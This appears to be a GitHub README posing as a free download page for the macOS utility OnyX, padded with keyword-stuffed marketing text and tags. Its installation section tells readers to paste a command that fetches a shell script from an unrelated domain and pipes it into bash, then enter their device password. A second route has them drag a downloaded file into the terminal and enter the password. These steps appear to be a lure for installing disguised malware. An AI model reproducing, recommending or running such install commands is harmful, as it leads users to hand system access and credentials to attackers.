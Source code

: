 # OnyX For Mac — Free Download  
OnyX is a powerful macOS utility for system optimization and maintenance. Follow the instructions below to install OnyX on your Mac for free and keep your system running smoothly! 🚀  

[![Download Now](https://img.shields.io/badge/Download%20Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/onyx) 

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install OnyX For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with OnyX  
OnyX empowers macOS users with tools to optimize and maintain their system. Here’s what you can do:  
- 🛠 **System Maintenance**: Clean caches, logs, and temporary files to free up disk space.  
- ⚙️ **Performance Optimization**: Fine-tune system settings for faster performance.  
- 🗑 **Junk Removal**: Safely delete unnecessary files to declutter your Mac.  
- 🔒 **Privacy Protection**: Clear browsing data and protect your personal information.  
- 📊 **System Diagnostics**: Verify disk health and troubleshoot issues with ease.  
- 🖥 **Customization Options**: Personalize macOS appearance and behavior to your liking.  

---

## About OnyX  
OnyX is a trusted macOS utility designed to help users maintain, optimize, and customize their systems. With a user-friendly interface, it offers a suite of tools to clean up unnecessary files, improve system performance, and troubleshoot potential issues. Whether you're a casual user or a power user, OnyX provides the flexibility to keep your Mac running at its best. Keywords: *OnyX free download, macOS optimization, system maintenance tool, clean Mac free*.  

This software is particularly valued for its ability to perform deep system cleaning. By removing caches, logs, and temporary files, OnyX frees up valuable disk space, ensuring your Mac operates efficiently. It also allows users to verify disk integrity, repair permissions, and run maintenance scripts, making it an essential tool for macOS system management. Keywords: *OnyX macOS utility, free system cleaner, Mac performance booster*.  

Beyond cleaning, OnyX offers advanced customization options. Users can tweak hidden macOS settings, such as Finder preferences, Dock behavior, and system animations, to tailor their experience. This makes OnyX a go-to solution for those who want a personalized and optimized Mac environment. Keywords: *customize macOS, free Mac utility, OnyX download free*.  

OnyX also prioritizes user privacy by enabling the removal of sensitive data, such as browsing history and application logs. Its intuitive design ensures that even non-technical users can navigate its features with ease, while advanced users appreciate its powerful command-line capabilities. Keywords: *Mac privacy tool, free system optimization, OnyX for macOS*.  

### Advantages of OnyX  
OnyX stands out due to its comprehensive feature set, ease of use, and reliability. Unlike other system utilities, it’s completely free, regularly updated, and developed by Titanium Software, a trusted name in macOS tools. Its lightweight design ensures minimal resource usage, while its robust functionality caters to both beginners and experts. Keywords: *best free Mac cleaner, OnyX macOS download, system maintenance free*.  

---

## 🖼 Preview  

![OnyX Dashboard](https://mac-cdn.softpedia.com/screenshots/OnyX_19.jpg)  
*OnyX’s clean interface for system maintenance and optimization.*  

![OnyX Cleaning Tools](https://titanium-software.fr/fr/images/home.png)  
*Easily clean caches and logs to free up disk space.*  

![OnyX Customization](https://macx.ws/uploads/posts/2018-10/1538467279_onyx-_03.jpg)  
*Customize macOS settings with OnyX’s intuitive options.*  


---

## 🔍 Tags  
OnyX free download, OnyX macOS utility, OnyX for macOS, OnyX download, OnyX download free, OnyX download mac, OnyX download macos, OnyX free macos, OnyX free mac, download OnyX free, download OnyX mac
